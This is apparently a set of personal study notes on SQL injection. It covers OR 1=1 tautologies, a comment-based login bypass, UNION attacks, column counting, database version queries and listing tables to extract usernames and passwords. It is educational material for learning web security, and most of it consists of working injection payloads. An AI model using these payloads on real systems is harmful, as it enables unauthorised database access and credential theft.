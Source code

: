 An vulnerability that makes an attacker to modify a sql query which the application provides to database.

The common places in queries for sql injection:
INSERT query - Value attribute

UPDATE query - WHERE values

SELECT query - table name or col name

SELECT query -ORDER BY clause

### Sample Injection :  OR 1=1--

```perl
https://insecure-website.com/products?category=Gifts'+OR+1=1--

-> causes

SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND condition

In burp we need to put 
category = 'Gifts'+OR+1=1+--
-> + acts as separator of values primarily and as white space secondarily.
```

Provides data from all categories,  and don’t consider the condition

### Can avoid password with this query :

```perl
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''

Query : (In burp)

username=administrator'+--
```

### SQL Injection : Union Attacks

Sometimes results of sql query are returned with application’s ui responses, here we can get data from other table in same database using UNION keyword of sql query.

```perl
SELECT a, b FROM table1 UNION SELECT c, d FROM table2

-> The number of columns on both table should be same and the datatypes of columns 
	 should be same.
```

We can find the number of columns of the db which parses the sql query by using “Order BY” clause.

```perl
' ORDER BY 1 --
' ORDER BY 2 --
' ORDER BY 3 --
```

When the web’s response differs from normal output/response, we can understand it is the limit of columns in the table. But here we will get http response, which may become blank/no output at some time due to db’s result. For this we use the alternative “ ‘ UNION SELECT NULL, NULL —

The thing is null will match with any data types of the column, and in maximum cases the response won’t be blank but will just add one extra row of null values with tables values to output.

```perl
'+UNION+SELECT+NULL,+NULL+--

-> in queries and remove all default values of the parameters, correct number of nulls 
will give 200 status code.

```

## **Database-specific syntax**

```sql
For oracle there is a built-in table, so we can use like this

' UNION SELECT NULL FROM DUAL--

-- should be followed by space.
```

### Finding column with specific database

```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--

there by we can identify which column has string data type.
```

### We can find username, pw once we know the respective column names, column data types and number of columns:

```sql
' UNION SELECT username, password FROM users--
```

## **Retrieving multiple values within a single column**

```sql
' UNION SELECT username || '~' || password FROM users--

-> Concatenating two columns.
```

## **Examining the database in SQL injection attacks**

We need to find the version and type of db.

The table and column names it contains.

| Database type | Query |
| --- | --- |
| Microsoft, MySQL | `SELECT @@version` |
| Oracle | `SELECT * FROM v$version` |
| PostgreSQL | `SELECT version()` |

```sql
Sample code:
First find number of columns, then find data type then find this

'UNION SELECT @@version --

If -- this comment won't work, then go for #(different db different comments)
```

### Listing content of db:

Most dbs except Oracle have views to display the information.

```sql
SELECT table_name FROM information_schema.tables

--For displaying about tables info

SELECT column_name FROM information_schema.columns WHERE table_name = 'Users'
--For column names of specific table

Then select 
select coulmnname from tablename
```
